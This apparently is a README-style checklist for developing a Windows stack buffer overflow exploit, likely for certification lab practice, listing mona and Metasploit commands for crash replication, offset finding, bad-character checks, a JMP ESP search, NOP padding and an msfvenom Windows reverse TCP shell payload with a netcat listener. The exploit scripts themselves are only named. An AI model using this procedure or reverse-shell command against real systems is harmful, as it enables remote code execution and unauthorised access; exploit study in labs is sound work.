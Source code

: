 # How to use it

1 - Mona Configuration
\
`!mona config -set workingfolder c:\mona\%p` (Configure mona)

2 - Fuzzer payload

3 - Crash Replication & Controlling EIP
\
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600` (Change the -l value to the value that crashed the server)
\
Exploit payload

4 - Search Offset
\
`!mona findmsp -distance 600` (Change the -l value to the value that crashed the server to find the EIP)
\
Then, update the exploit and set the offset variable. to the previews value and set retn to "BBBB"

5 - Finding bad characters
\
`!mona bytearray -b "\x00"`
\
badcharacter payload
\
update the payload
\
`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>` (Address EIP)
\
and try to find the badcharacters

6 - Find a Jump Point
\
`!mona jmp -r esp -cpb "\x00"`
\
Find a jump point (Search de addres to set on the exploit in the part of "retn")

7 - Prepend NOPs
\
`padding = "\x90" * 16`

8 - Create Shell
\
`msfvenom -p windows/shell_reverse_tcp LHOST=tun0IPHERE LPORT=4444 EXITFUNC=thread -b "\x00" -f c`

9 - Netcat listener

10 - exploit!

